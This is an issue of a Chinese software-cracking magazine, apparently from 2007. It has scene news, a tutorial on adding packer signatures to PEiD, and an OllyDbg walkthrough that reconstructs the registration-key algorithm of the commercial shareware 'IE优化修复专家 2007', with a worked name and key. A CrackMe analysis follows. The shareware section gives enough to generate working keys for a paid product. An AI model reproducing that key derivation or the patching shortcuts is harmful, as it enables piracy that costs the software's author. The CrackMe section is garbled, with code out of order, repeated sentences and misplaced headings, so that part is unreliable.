五.一，又见五.一，又是一个黄金周啊，你是决定出游还是选择待在家里呢？而对于破界来说，最敏感而且最值得期待的莫过于五.一、十一等之类的节日，为啥？因为这些节日牛人们都会放出一些很牛的工具出来，比如去年中秋节 Voix 大侠就放出了 Asprotect V2.xx iat Fixer V2.2s 脱壳脚本，元旦后又继续放出了 Aspr2.XX_unpacker_1.0 脱壳脚本，这些好东西无疑成为了菜鸟们的至爱。那这次的五.一，会有好东西放出来吗？值得我们期待！

# 每月破新闻

## 1.《一蓑烟雨论坛精华·季度刊》

最近一蓑烟雨论坛启动了『UnPackCn Security』，主要负责收集和整理《一蓑烟雨论坛精华·季度刊》，收录一蓑烟雨论坛自开坛至 2007.03.31 的所有精华文章，而且以后每季度发布一次最新精华合集的季度刊，每逢 3/6/9 月份发布，每年的元旦发布上年全年的精华合集，实在是国内破界的一件大喜事啊。
相关连接：http://www.unpack.cn/thread-11743-1-1.html

## 2.新一代全图形界面调试器 - Syser Debugger v1.7

Syser Debugger 是基于 X86 平台专门为 Windows NT 架构的系统开发的内核级和应用级全图形界面的调试器，支持二进制汇编级调试和源代码级调试。它支持 Windows 应用程序和 Windows 驱动程序的调试。还完美地把 IDA Pro 和 SoftICE 以及 OllyDbg 的功能相结合，使操作更加方便快捷，功能更加强大。不过遗憾的是，这不是一个免费的调试器。光盘附带命令参考《手册》和《Syser Debugger 使用手册》。
相关连接：http://www.sysersoft.com/

# 每月破资源

## 看雪论坛精华 8

看雪论坛精华 8 收集了看雪软件安全论坛 2006.1.1 - 2006.12.31 期间的精华内容，共 800 余篇原创文。看雪论坛是个软件安全技术交流场所，它们不断发布破解软件和注册机，仅交流技术文章，希望这些文章能对软件开发作者在改进软件保护技术方面起到帮助作用。
下载页面：http://www.001dns.cn/pediy/crack8.rar (电信镜像下载)
相关连接：http://bbs.pediy.com/showthread.php?t=38891

# 破解前奏之使 PeiD 认识更多的壳

December

从本文中你可以学习到：
如何识别更多的壳

不知不觉，破解前奏系列已经写到第七课了，我想很多菜鸟都已经进化了吧？如果是的话，那么真要恭喜恭喜了。这次带给大家的主要不是教大家怎么脱壳，而是认识更多的壳，希望本文对入门或者还没入门的有点帮助。学习前，我们看看所需准备的工具：

# 【需要准备的工具】

- PeiD v0.94（用于检测 PE 文件是否加壳）
- OllyDBG v1.1（下简称 OD，用于动态调试）

OK，先来说些简单的知识，希望对大家不是废话。一般在检测壳的时候，大家都喜欢使用 PeiD 来检测，但是不知道大家是否想过为什么 PeiD 能检测出是什么壳呢？答案很简单，就是 PeiD 的程序目录下带有一个文件叫 userdb.txt，此文件保存有各种壳的特征码，凡收录在此文件中的壳，都能被 PeiD 识别出来，但是现在经常会出现一些新的加壳器，而 PeiD 又不是经常更新，所以很多时候我们需要自己来 userdb.txt 更新，以便能检测出更多的壳，下面来介绍一下 userdb.txt 文件的内容，因为都是雷同的，所以提取下面一段作为介绍：

```
[PECompact v2.0 beta -> Jeremy Collake]
signature = B8 ?? ?? ?? ?? 05 ?? ?? ?? ?? 50 64 FF 35 00 00 00 00 64 89 25 00 00 00 00 CC 90 90 90 90
ep_only = true


```

很明显，PECompact v2.0 beta 就是壳的名称，而箭头后面的就是壳的作者，signature 后面的就是特征码，这个特征码实际上就是在壳的入口点取的部分二进制代码，最下面的是 ep_only = true，这个基本是固定格式。了解了上面的内容，下面就给大家说说如何才能使 PeiD 认识更多的壳。

## 【过程】
这里演示的加壳程序是 DAStub，可能出现了半年左右吧，还算比较新吧，我下载的这个因为其自身没有加壳，所以我使用它对 Win98 下的记事本加壳，使用 PeiD 是检测结果，如图 1。
Nothing found，大家都很清楚是检测不出来的意思，但是留意一下，却可以在 EP 块上看见 DAStub，在这里也可以作为判断壳的一种方法，但很多时候，这里看见的是某某作者，嘿嘿！好了，将程序丢到 OD 中去：

```assembly
0040C2B0  BF 4CE04000      MOV EDI,0040E04C
; 载入后停在这里
0040C2B5  83C9 FF           OR ECX,FFFFFFFF
0040C2B8  33C0              XOR EAX,EAX
```

在入口点处按右键，选择 “Follow in Dump”，再选择 “Selection” 意思就是在数据窗口中跟随到选择部分，可以看到，如图 2。

从入口点处选择一部分代码出来，比如我选的如下：

```
BF 4C E0 40 00 83 C9 FF 33 C0 68 34 E0 40 00 F2 AE F7 D1 49 51 68 4C E0 40 00 E8 11 0A 00 00 83 C4 0C 68 4C E0 40 00 FF 15 00 D0 40 00 8B F0 BF 4C E0 40 00 83 C9 FF 33 C0 F2 AE F7 D1
```

还记得前面介绍的那一段吧？对，这里提取出来的代码就是放到刚才的 signature 后面中去就可以了，我对其整理后如下：

```
[DAStub -> bambam]
signature = BF 4C E0 40 00 83 C9 FF 33 C0 68 34 E0 40 00 F2 AE F7 D1 49 51 68 4C E0 40 00 E8 11 0A 00 00 83 C4 0C 68 4C E0 40 00 FF 15 00 D0 40 00 8B F0 BF 4C E0 40 00 83 C9 FF 33 C0 F2 AE F7 D1
ep_only = true


```

DAStub 就是壳的名称，bambam 是作者名，我估计的，如果不是的话，作者请原谅啊！接下来的就是特征码了，代码一定要对齐，最下面的是固定的。好了，将其放到 userdb.txt 文件中去吧，再使用 PeiD 来检测看看，如图 3。
可以看到，壳被检测出来了，这里大家可能有个疑问，为什么原来的 [DAStub -> bambam] 是没 * 号，为什么检测后就多了个 * 号出来了？这里其实作者早有介绍，表示使用代码签名检测过。有人一定会问，还有其他方法吗？答案是肯定，如果不使用 OD 来提取特征码，还可以利用 PeiD 的插件来获得，这得感谢大牛们编写出来的 PeiD 插件了，使用名为：Add signature v1.01 插件扫一下，如图 4。

这时弹出一个对话框，点“Scan EP for Sig”，则也可以获得特征码，如图 5。
本来这里也可以自动保存到 userdb.txt 文件的，但是我这破机器上却不行，不知道咋回事，希望有了解的朋友指点一下，如果你也像我这里不行的，也就只好把提取出来的特征码手工放到 userdb.txt 文件中去了。过程和上面手工的一样，这里就不再重复了。

## 【后记】

这个壳没啥好看，要脱它并不难，只要你一直 F8 走下去，就可以看到 OEP 了，如何知道哪个是 OEP 呢？当走路 F8，直到看到如下代码的时候：

```assembly
0040C70E  . E8 FD030000   call NOTEPAD.0040CB10
0040C713  . 8B0D E0E04000 mov ecx, dword ptr ds:[40E0E0] ; NOTEPAD.00400000
0040C719  . A1 00E04000   mov eax, dword ptr ds:[40E000] ; 10CC
0040C71E  . 03C1          add eax, ecx                   ; 00400000 + 10CC
0040C720  . A3 00E04000   mov dword ptr ds:[40E000], eax ; 结果保存在 eax


```

发现 0040C720 处的 eax 就是 OEP，可以直接到 OEP 去 F2 下断，断下后就可以 Dump 出来了。程序都使用 call 0040CCE0 对 API 函数进行解码。OK，这次就先说到这里了，我已将加壳程序和加壳后的 Win98 记事本打包在附件里了，如果你在学习过程中有什么问题或者建议的话，欢迎到《黑手》的官方论坛作客。

> 【本文介绍的目标程序 DAStub 和相关工具 PeiD v0.94、OllyDBG v1.1 已收录在本期光盘中】

编辑点评：作者使用两种方法详细地介绍了 PeiD 如何识别壳，相对于破解脱壳来说，确实是简单多了，不过这也仅仅是开始而已，真正的“活”还在后面呢。所以多学习一些比较实用的方法和技巧，在实践的时候，就不必那么累了。

# IE 优化修复专家 2007 算法分析

**Hokkien**

《IE 优化修复专家 2007》是一款集 IE 浏览器修复、保护、网络浏览加速、系统安全修复和设置、IE 设置功能备份、Active 控件免疫等多项功能于一体，全面解决浏览器常见问题的功能强大的工具软件，其修复选项多达 100 项，彻底解决常见的 IE 错误。总体感觉，软件还是比较实用的。但可惜的是该软件是共享软件，试用期间虽然没有功能上的限制，但时间比较短，只有 30 天。所以，破解该软件也是不得已而为之，实属无奈呀……

## 脱壳

用 PeiD v0.94 查了一下，显示“ASPack 2.12 -> Alexey Solodovnikov”。看来，加了压缩壳，这壳比较简单，可以用 OD 载入，F8 跟踪寻找入口点 OEP，或者用 OD 脚本也可以，找到 OEP 后，Dump 下来就可以了，如果发现软件不能运行，可以修复一下输入表。
为了节省时间和版面，我们直接用工具脱掉就可以了。再用 PeiD v0.94 查了一下，显示 Borland Delphi 6.0 - 7.0 编译，如图 1。

## 算法分析

首先，试探性注册一下软件，看一下有什么有用的信息，信息提示重新启动验证是否注册成功。用 OD 载入，进行超级字符串搜索 Unicode 字符，很容易发现刚才的注册提示，如图 2。
双击此处，来到对应位置：

```assembly
0054B59D  . 68 B8B65400   PUSH dump.0054B6B8 ; 由此往上看
; 感谢您对我们的支持!请重新启动软件以验证注册码。
0054B5A2  . 8D45 FC       LEA EAX, DWORD PTR SS:[EBP-4]
0054B5A5  . BA 0A000000   MOV EDX, 0A
```

由此往上看，发现很多有用的信息，我们选择一处跳转：

```assembly
0054B53B |. E8 A8C0FEFF CALL dump.005375E8
0054B540 |. 84C0 TEST AL,AL
0054B542 |. 75 2C JNZ SHORT dump.0054B570 ; 关键跳
```

其实这一处不能算是真正的关键跳，因为爆破中只要修改“关键跳”就能注册成功，但此处不行。毕竟，现在的软件已经不再像以前那么鸡肋了，只是简简单单修改几个跳转就能破解成功。好了，扯远了，言归正传。我们在 0054B53B 处下断点。F9 运行程序，点击注册，用户名输入“Hokkien”，注册码输入“12345abcde”，F7 步入，来到下面代码处：

```assembly
00537625 |. 8B45 FC MOV EAX,DWORD PTR SS:[EBP-4] ; EAX 用户名
00537628 |. E8 63D3ECFF CALL dump.00404990 ; 获取用户名长度
0053762D |. 3B43 4C CMP EAX,DWORD PTR DS:[EBX+4C]
00537630 |. 7F 19 JG SHORT dump.0053764B
00537632 |. 8B45 FC MOV EAX,DWORD PTR SS:[EBP-4] ; EAX 用户名
00537635 |. E8 56D3ECFF CALL dump.00404990 ; 获取用户名长度
0053763A |. 3B43 50 CMP EAX,DWORD PTR DS:[EBX+50]
0053763D |. 7C 0C JL SHORT dump.0053764B ; 跳往失败处理


```

一般而言，注册前会验证信息的合法性，那么对于本软件，又是如何验证呢？从上面代码形式很容易发现在对用户名进行合法验证。但在上面代码中没有直接的数字表明其长度限制，如何得出其限制的长度呢？这时候，OD 的内存窗口发挥作用了，在内存窗口中，直接转向 DS:[EBX+4C] 和 DS:[EBX+50] 指向的地址，如图 3。
由此可以知道，注册名的长度应大于 3 小于 0x64，否则注册失败。好了，用户名的合法验证完了，我们继续分析代码，看看注册码有何限制。

```assembly
0053763F |. 8B45 08 MOV EAX,DWORD PTR SS:[EBP+8] ; 注册码
00537642 |. E8 49D3ECFF CALL dump.00404990 ; 注册码长度
00537647 |. 85C0 TEST EAX,EAX ; 是否为空?
00537649 |. 75 04 JNZ SHORT dump.0053764F
0053764B |> 33DB XOR EBX,EBX
0053764D |. EB 60 JMP SHORT dump.005376AF
0053764F |> 8D55 F4 LEA EDX,DWORD PTR SS:[EBP-C]
00537652 |. 8B45 08 MOV EAX,DWORD PTR SS:[EBP+8]
00537655 |. E8 E215EDFF CALL dump.00408C3C ; 将注册码转化为大写
0053765A |. 8B55 F4 MOV EDX,DWORD PTR SS:[EBP-C]
```

看来，对于注册码的输入，软件并没有过多的限制，只要不为空就可以了，这也好，便宜了我等菜鸟。继续看代码。

```assembly
00537668 |. 8B55 FC MOV EDX,DWORD PTR SS:[EBP-4] ; 用户名
0053766B |. 8BC3 MOV EAX,EBX
0053766D |. E8 BAFBFFFF CALL dump.0053722C ; 算法，F7步入
00537672 |. 8B45 F0 MOV EAX,DWORD PTR SS:[EBP-10]
00537675 |. 8B55 08 MOV EDX,DWORD PTR SS:[EBP+8]
```

```assembly
00537678 |. E8 3716EDFF CALL dump.00408CB4 ; 真假注册码判断
0053767D |. 85C0 TEST EAX,EAX
0053767F |. 74 04 JE SHORT dump.00537685 ; 此处还是不能爆破
00537681 |. 33DB XOR EBX,EBX
00537683 |. EB 2A JMP SHORT dump.005376AF
```

终于出现算法函数了，我们 F7 步入，来到下面代码处。

```assembly
00537263 |. BA DC735300 MOV EDX,dump.005373DC ; "gf258369gf"
00537268 |. E8 E7D4ECFF CALL dump.00404754
00537280 |> 8B45 EC MOV EAX,DWORD PTR SS:[EBP-14]
00537283 |. E8 08D7ECFF CALL dump.00404990 ; 固定字符长度
00537288 |. 8BD8 MOV EBX,EAX
0053728A |. 8D45 E8 LEA EAX,DWORD PTR SS:[EBP-18] ; 这里出现固定字符串“gf258369gf”，有什么作用呢?
0053728E |. 8BCB MOV ECX,EBX ; ECX 固定字符串长度
00537290 |. D1F9 SAR ECX,1 ; 右移 2 位
00537292 |. 79 03 JNS SHORT dump.00537297
00537294 |. 83D1 00 ADC ECX,0
00537297 |> BA 01000000 MOV EDX,1
0053729C |. 8B45 EC MOV EAX,DWORD PTR SS:[EBP-14]
0053729F |. E8 44D9ECFF CALL dump.00404BE8 ; 取前 5 位
005372C2 |. E8 21D9ECFF CALL dump.00404BE8 ; 取后 5 位
005372C7 |. FF75 E8 PUSH DWORD PTR SS:[EBP-18]
005372CA |. FF75 FC PUSH DWORD PTR SS:[EBP-4]
005372CD |. FF75 E4 PUSH DWORD PTR SS:[EBP-1C]
005372D0 |. 8D45 E0 LEA EAX,DWORD PTR SS:[EBP-20]
005372D3 |. BA 03000000 MOV EDX,3
005372D8 |. E8 73D7ECFF CALL dump.00404A50 ; 与用户名组成新字符串 "gf258Hokkien369gf"
```

答案出来了，原来软件把用户名插入固定字符串的中间，但是，这又有什么用呢？

```assembly
00537311 |> \8B45 E0 MOV EAX,DWORD PTR SS:[EBP-20] ; 字符串 "gf258Hokkien369gf"
00537314 |. E8 77D6ECFF CALL dump.00404990 ; 字符串长度
00537319 |. 8BD8 MOV EBX,EAX
0053731B |. EB 37 JMP SHORT dump.00537354
0053731D |> 8B46 68 /MOV EAX,DWORD PTR DS:[ESI+68] ; 固定数 0X1B273B93
00537320 |. 8B56 6C |MOV EDX,DWORD PTR DS:[ESI+6C] ; 数 0
00537323 |. 0345 F0 |ADD EAX,DWORD PTR SS:[EBP-10] ; 加
00537326 |. 1355 F4 |ADC EDX,DWORD PTR SS:[EBP-C] ; 加进位
00537329 |. 52 |PUSH EDX
0053732A |. 50 |PUSH EAX
0053732B |. 8B45 E0 |MOV EAX,DWORD PTR SS:[EBP-20] ; 固定字符串 "gf258Hokkien369gf"
0053732E |. 0FB64418 FF |MOVZX EAX,BYTE PTR DS:[EAX+EBX-1] ; 取相应位 ASCII 值
00537333 |. 50 |PUSH EAX
00537334 |. B8 59040000 |MOV EAX,459
00537339 |. 5A |POP EDX
0053733A |. 8BCA |MOV ECX,EDX ; 取相应位 ASCII 值
0053733C |. 33D2 |XOR EDX,EDX ; 清 0
0053733E |. F7F1 |DIV ECX ; 除
00537340 |. 8BC2 |MOV EAX,EDX ; 获取余数
00537342 |. 33D2 |XOR EDX,EDX
00537344 |. 290424 |SUB DWORD PTR SS:[ESP],EAX ; 减
00537347 |. 195424 04 |SBB DWORD PTR SS:[ESP+4],EDX ; 减借位
0053734B |. 58 |POP EAX
0053734C |. 5A |POP EDX
```## 总结

```
0053734D |. 8945 F0    |MOV DWORD PTR SS:[EBP-10],EAX
; 存入，用来叠加
00537350 |. 8955 F4    |MOV DWORD PTR SS:[EBP-C],EDX
; 存入，用来叠加
00537353 |. 4B         |DEC EBX              ; 本次循环减1
00537354 > 8B45 E0     MOV EAX,DWORD PTR SS:[EBP-20]
; 字符串
00537357 |. E8 34D6ECFF |CALL dump.00404990   ; 长度
0053735C |. 3BD8       |CMP EBX,EAX
0053735E |. 7F 04       |JG SHORT dump.00537364
00537360 |. 85DB       |TEST EBX,EBX
00537362 |.^7F B9       \JG SHORT dump.0053731D
```

上面的代码对新字符串 "gf258Hokkien369gf" 进行计算，现在说一下计算方法：首先，有一固定数字（我的机器是 0X1B273B93），从最后开始取字符串的相应位 ASCII 值，然后用固定数模相应位 ASCII 值（结果记为 A），接着，固定数字减 A，最后对每一位进行同样的计算，然后叠加，叠加的结果保存，后面有用。为了清楚一点，我用表达式表示如下：

结果=[0X1B273B93-0X459 mod ASCII(len)]+[0X1B273B93-0X459 mod ASCII(len-1)]+……

既然已经对上面的字符串进行了计算，那么是否就是注册码？

```
00537386 |. E8 BD1DEDFF CALL dump.00409148    ;
把上面 16 进制数字结果转化为相应字符
0053738B |. 8B07        MOV EAX,DWORD PTR DS:[EDI]
0053738D |. E8 FED5ECFF CALL dump.00404990    ;
取前 10 位字符
00537392 |. 8BC8        MOV ECX,EAX


```

看来，注册码的算法已经出来了，就是上面分析的结果，然后转化为相应字符串，只取前 10 位。

现在我们来整理一下思路：首先，用户名的长度不能小于 3，否则注册直接失败；然后把用户名插入固定字符串 "gf258369gf"，例如 "gf258Hokkien369gf"；接着对该字符串进行计算，具体是：从最后开始取字符串的相应位 ASCII 值，然后用固定数模相应位 ASCII 值（结果记为 A），接着，固定数字减 A，最后对每一位进行同样的计算，然后叠加，例如，“gf258Hokkien369gf” 的计算结果为 0X00000001CD9AF1F4；最后，把计算所得的 16 进制数字转化为字符串，取前 10 位，例如 “01CD9AF1F4”，这个便是最终的注册码了。OK，那我们注册一下，当然成功了，如图 4。

> 【本文介绍的目标程序 DASTub 和相关工具 PeID v0.94、OllyDBG v1.1 已收录在本期光盘中】

编辑点评：算法分析，无疑是件痛苦的事情，但很多 Cracker 都为此痛并快乐着，足见其算法分析的魅力所在，而且算法分析还可以锻炼耐心，何乐而不为呢？对于 ASPack 脱壳，除了文章开始提到的，还有一个非常快速的方法，就是 OD 载入后，Ctrl+S，输入 push 0 retn（读者请注意，这里分两行），就可以找到跳向 OEP 的那个返回就是了。

# 一个经典的 CrackMe 算法分析

KYO

前天一个朋友说他下了一个 crackme，有两个关键地方没有分析出来，就发给我看了看。我跟了几个小时终于弄明白了。感觉他的算法写得挺好的，现写出来给各位参考，希望大家能共同进步。

先打开看一下界面并随便注册一个账号试试效果，看是否能弹出什么关键字符串。原来是看雪学院出的精品啊。填上用户名和密码，点击 check 没有任何反映，看来不能用查找字符串的方法分析了。接着看一下这个 crackme 有没有加壳吧。用 peid 加载，如图 1。
可以看到没有加壳，所用的编程语言为 win32 汇编。再使用插件 Krypto ANALyzer 查看，这个 crackme 并没有使用经典的加密算法。这下对我来说是最
喜欢的。因为汇编语言分析起来最省力了，我想大部分玩破解的会和我有同样的感觉。

接下来正式进入正题，用 OD 加载，然后 F9 运行程序，添写上面的注册名和密码，接着使用万能断点，程序就被断在 77e4fbbc 这里。从模块 -user32 和地址 77e4fbbc 都可以判断这是系统领域，不是我们来的地方，删除这个断点，然后 ALT+F9 回到这里。这里就是程序领空，我在 00401185 这里先下个断再说。先粗略地看一下程序代码再说，一直往下看，发现需要经过 5 个验证才能最终走到这里，如图 2。

从上图 GOOD JOB, MAN! 这里可以看到，程序要能顺利走到 0040137E，就会注册成功。那么我现在就慢慢来跟。首先看下面这段，也就是第一个验证。

```
00401185 |. 83F8 04    CMP EAX,4 ; 取用户名长度跟 4 比较，小于 4 则跳向失败
00401188 |. 73 05       JNB SHORT CrackMe_.0040118F
0040118A |. E9 11020000 JMP CrackMe_.004013A0
0040118F |> A3 8F354000 MOV DWORD PTR DS:[40358F],EAX
00401194 |. 68 FF000000 PUSH 0FF
/Count = FF (255.)
00401199 |. 68 93354000 PUSH CrackMe_.00403593
; |Buffer = CrackMe_.00403593
0040119E |. 68 ED030000 PUSH 3ED
|ControlID = 3ED (1005.)
004011A3 |. FF75 08    PUSH DWORD PTR SS:[EBP+8]
; |hWnd
004011A6 |. E8 47020000 CALL <JMP.&user32.GetDlgItemTextA> ; \GetDlgItemTextA ; 得到密码的长度
```

```
assembly
004011AB | . BA 1B344000 MOV EDX,CrackMe_.0040341B
004011B0 | . 8902 MOV DWORD PTR DS:[EDX],EAX
004011B2 | . E8 49FEFFFF CALL CrackMe_.00401000
004011B7 | . 8D1D 1B344000 LEA EBX,DWORD PTR DS:[40341B] ; 密码的长度放到 ebx 里面
004011BD | . E8 78FEFFFF CALL CrackMe_.0040103A
004011C2 | . 3D F716602F CMP EAX,2F6016F7 ; 返回值 eax 跟 2F6016F7 比较，不相等则跳转失败
004011C7 | . 0F85 D3010000 JNZ CrackMe_.004013A0
```

```assembly
.const
szbuffer2 db " 第%08x 个数为:%08x",0dh,0ah,0
.code
start:
    invoke CreateFile,offset szFileName,GENERIC_WRITE,FILE_SHARE_READ,0,CREATE_ALWAYS,FILE_ATTRIBUTE_NORMAL,0 ;在目录下创建一个名字为字符表.txt的文件
    .if eax != INVALID_HANDLE_VALUE
        mov hFile,eax
    .endif
    xor eax,eax
    MOV eax,0ff8cd558h
    XOR EAX,12345678h ;让0ff8cd558h xor 12345678h送入eax
    MOV kyo327,EAX
    MOV ECX,100h ;以 100h 做循环
@bh3: MOV EDX,kyo327
    LEA EAX,DWORD PTR DS:[ECX-1]
    PUSH ECX
    MOV ECX,8
@bh2: SHR EAX,1
    JNB @bh1
    XOR EAX,EDX
@bh1: DEC ECX
    JNZ @bh2 ;ecx不等于0则跳到@bh2
    POP ECX
    mov geshu1,ecx
    mov fangzifu,EAX ;以上代码是把图5的算法还原过来
    invoke wsprintf,offset szbuffer1,offset szbuffer2,geshu1,fangzifu ;16 进制格式化转换
    invoke WriteFile,hFile,offset szbuffer1,sizeof szbuffer1,addr dwTemp,0 ;把转换后的字符串写入字符表.txt 文件，注意这里是 geshu1 做循环写入的，每循环一次写一条数据，一共是 100h 条数据。
    DEC geshu1
    mov ecx,geshu1
    JNZ @bh3
    invoke CloseHandle,hFile
    invoke ExitProcess,NULL
end start


```
我用刚才填的 kyo327 密码：1234567 走到 004011C7 时是跳向失败的。下面分析下看为什么没有通过验证。从上面这一小段可以看到 CALL CrackMe_.00401000 和 CALL CrackMe_.0040103A 是两个关键地方。现在 F7 分别进去看看这两个 CALL 的东西。如图 3。
从这段代码看出，这个跟用户名密码都没有任何关系，它是一个单独地计算了 100h 个 DWORD 的数放在了 ds:[ecx*4+403017] 中，就相当于一个字符表。当然 ecx 就是从 100h 一直递减到 0 的。这个暂时还没有什么用，先不用管。再看 CALL CrackMe_.0040103A 是干什么用的。如图 4。
暂时还没有什么用，先不用管。再看 CALL CrackMe_.0040103A 是干什么用的。如图 4。
这段代码更简单。首先 ebx 里面存的数是上面传过来的，这里也就是密码的长度。程序作用就是取 ebx 里的字符的 16 进制。因为我注册的密码为 7，16 进制就是 37h，

```
[(ds:(OFF XOR 37)*4+40301B) XOR 00FFFFFF] cmp [not (2f6016f7)]
```

我粗略地可以表达成上面的算式。这下这个验证有着落了。只要他们比较相等就可以通过这个验证。显然是一个检查密码长度的验证。当然也有人会说密码长度从 1 开始试起，呵呵，这样也行。更简单的，暴了它更省事，直接把 JNZ CrackMe_.004013A0 改为 JZ CrackMe_.004013A0 就 OK 了。不过我这里还是分析下算法，这样也有助于我们学习。从我写出那个算式来看，ds:[ecx*4+403017] 和 (ds:(OFF XOR 37)*4+40301B) 是对应的，因为 ds:[(ecx+1)*4+403017]=ds:[ecx*4+40301B]，所以这里只需要把 CALL CrackMe_.00401000 里所构造的字符表打印出来，然后找到对应关系即可。我写了一个小程序来实现。代码很简单，我写出来给大家作为参考。前面的代码头就不写了。

```assembly
.data
szFileName db '字符表.txt',0
.data?
kyo327 dd ?
szbuffer1 db 64 dup(?)
hFile dd ?
dwTemp dd ?
fangzifu dd ?
geshu1 dd ?
```

编译通过后，双击程序，会在当前目录下生成一个“字符表.txt”。然后每一个值都会有一个对应的值。因为[not (2f6016f7)] XOR 00FFFFFF=D06016F7。现在查表可得到 D06016F7 对应的是 0E6.，然后(e6-1) xor Off= 1A.，这样就得到密码的长度必须为 26 个字符。接下来继续跟着第 2 个验证，如图 5。

可以看到最后还是调用了 CALL CrackMe_.00401000 和 CALL CrackMe_.0040103A..取密码的第 9 位和第 18 位放到 ebx 里，然后验证返回值 eax 是否和 24c1465 相等。不过这次 EBX 里是两个字符，要麻烦多了。我在这里也都闷了好久，终于想出一个办法如下：

当第 9 位为 01h 到 0ffh 时求出所有的 eax，并让(not 242c1465) xor 所有的 eax 再打印一张字符表。然后这个字符表和上面那个字符表对比，如果找到有相同的 dword 字符就 OK 了。这里我又写了小程序来实现，和上面那个程序差不多。这里我只写出关键部分，省得土豆说我有骗稿费之嫌，呵呵。

```assembly
mov geshu1,ecx
mov fangzifu,EAX
xor fangzifu,00ffffffh
shr fangzifu,8
xor fangzifu,0dbd3eb9ah
```

具体的代码见光盘。编译后又生成一张字符表，通过对比得出这张表的第 d3 个字符和上张表的 2b 个字符是对应的。并且对应的 dword 字符是 dbbbc9d6。

这样的话 not 242c1465=dbd3eb9a. dbbbc9d6 xor dbd3eb9a=0068224c

```assembly
00401227  8D05 93354000  LEA EAX, DWORD PTR DS:[403593]
0040122D  8A1401         MOV AL, BYTE PTR DS:[ECX+EAX]
00401230  80FA 39        CMP DL, 39
00401233  76 05          JBE SHORT CrackMe_.0040123A
00401235  80FA 41        CMP DL, 41
00401238  72 0A          JB SHORT CrackMe_.00401244
0040123A  80FA 30        CMP DL, 30
0040123D  72 05          JB SHORT CrackMe_.00401244
0040123F  80FA 46        CMP DL, 46
00401242  77 05          JA SHORT CrackMe_.00401249
00401244  E8 57010000    CALL CrackMe_.004013A0
00401249  41             INC ECX
0040124A  83F9 08        CMP ECX, 8
0040124D  72 D8          JB SHORT CrackMe_.00401227
0040124F  33C9           XOR ECX, ECX
00401251  33DB           XOR EBX, EBX
00401253  8D5D EA        LEA EBX, DWORD PTR SS:[EBP-16]
00401256  C1E3 04        SHL EBX, 4
00401259  8A1401         MOV AL, BYTE PTR DS:[ECX+EAX]
0040125C  8810           MOV BYTE PTR DS:[EBX], AL
0040125E  80FA 41        CMP DL, 41
00401261  72 0A          JB SHORT CrackMe_.0040126D
00401263  80FA 46        CMP DL, 46
00401266  77 05          JA SHORT CrackMe_.0040126D
00401268  80C2 37        ADD DL, 37
0040126B  EB 03          JMP SHORT CrackMe_.00401270
0040126D  80EA 30        SUB DL, 30
00401270  80E2 0F        AND DL, 0F
00401273  0ADA           OR BL, DL
00401275  46             INC ESI
00401276  41             INC ECX
00401277  83F9 08        CMP ECX, 8
0040127A  895D FC        MOV DWORD PTR SS:[EBP-4], EBX
0040127D  72 D7          JB SHORT CrackMe_.00401256
0040127F  E8 7CFDFFFF    CALL CrackMe_.00401000
00401284  8B15 93354000  MOV EDX, DWORD PTR DS:[403593]
0040128A  E8 ABFDFFFF    CALL CrackMe_.0040103A
0040128F  3945 FC        CMP DWORD PTR SS:[EBP-4], EAX
00401292  0F85 08010000  JNZ CrackMe_.004013A0
00401298  33C9           XOR ECX, ECX
0040129A  8D05 93354000  LEA EAX, DWORD PTR DS:[403593]
```

# 图 6 第三处验证代码

kyo327 的话值为 37969166。那么密码前八位也就是 37969166。

现在看第 4 个验证，这个验证也很简单。取密码的第 10 位到 18 位。也是必须要在字符 0-9 或者 A-F 之间，并且把字符的 16 进制转换成字符，然后把前八位当成 ebx，（这里也就是 37969166）作运算算出一个值跟 10 到 18 位比较。这个还是让程序自己算得到第 10 位到 18 位为 E09C3708。

```assembly
00401307  E8 38FDFFFF    CALL CrackMe_.00401035
0040130C  3945 F8        CMP DWORD PTR SS:[EBP-8], EAX
0040130F  0F85 8B000000  JNZ CrackMe_.004013A0
00401315  33C9           XOR ECX, ECX
00401317  E8 E8FCFFFF    CALL CrackMe_.00401000
0040131C  83C0 12        ADD EAX, 12
0040131F  E8 20FDFFFF    CALL CrackMe_.0040103A
00401324  8945 F8        MOV DWORD PTR SS:[EBP-8], EAX
00401327  33C9           XOR ECX, ECX
00401329  33DB           XOR EBX, EBX
0040132B  8D05 93354000  LEA EAX, DWORD PTR DS:[403593]
00401331  83C0 12        ADD EAX, 12
00401334  8A1401         MOV AL, BYTE PTR DS:[ECX+EAX]
00401337  80FA 39        CMP DL, 39
0040133A  76 05          JBE SHORT CrackMe_.0040133F
0040133C  80FA 41        CMP DL, 41
0040133F  72 0A          JB SHORT CrackMe_.0040134B
00401341  80FA 30        CMP DL, 30
00401344  72 05          JB SHORT CrackMe_.0040134B
00401346  80FA 46        CMP DL, 46
00401349  77 05          JA SHORT CrackMe_.00401350
0040134B  E8 57010000    CALL CrackMe_.004013A0
00401350  41             INC ECX
00401351  83F9 08        CMP ECX, 8
00401354  72 D8          JB SHORT CrackMe_.0040132E
00401356  33C9           XOR ECX, ECX
00401358  33DB           XOR EBX, EBX
0040135A  8D5D EA        LEA EBX, DWORD PTR SS:[EBP-16]
0040135D  C1E3 04        SHL EBX, 4
00401360  8A1401         MOV AL, BYTE PTR DS:[ECX+EAX]
00401363  8810           MOV BYTE PTR DS:[EBX], AL
00401365  80FA 41        CMP DL, 41
00401368  72 0A          JB SHORT CrackMe_.00401374
0040136A  80FA 46        CMP DL, 46
0040136D  77 05          JA SHORT CrackMe_.00401374
0040136F  80C2 37        ADD DL, 37
00401372  EB 03          JMP SHORT CrackMe_.00401377
00401374  80EA 30        SUB DL, 30
00401377  80E2 0F        AND DL, 0F
0040137A  0ADA           OR BL, DL
0040137C  46             INC ESI
0040137D  41             INC ECX
0040137E  83F9 08        CMP ECX, 8
00401381  895D FC        MOV DWORD PTR SS:[EBP-4], EBX
00401384  72 D7          JB SHORT CrackMe_.0040135D
00401386  3345 F8        XOR EAX, DWORD PTR SS:[EBP-8]
00401389  3945 FC        CMP DWORD PTR SS:[EBP-4], EAX
0040138C  75 22          JNZ SHORT CrackMe_.004013AD
0040138E  68 D0204000    PUSH CrackMe_.004020D0
00401393  FF75 08        PUSH DWORD PTR SS:[EBP+8]


```

# 图 8 最后一处验证代码
# 图 9 演算出来的结果

```assembly
004012E4  E8 A3FDFFFF    CALL CrackMe_.0040108C
004012E9  3945 FC        CMP DWORD PTR SS:[EBP-4], EAX
004012EC  0F85 08010000  JNZ CrackMe_.004013A0
004012F2  33C9           XOR ECX, ECX
004012F4  8D05 93354000  LEA EAX, DWORD PTR DS:[403593]
004012FA  83C0 09        ADD EAX, 9
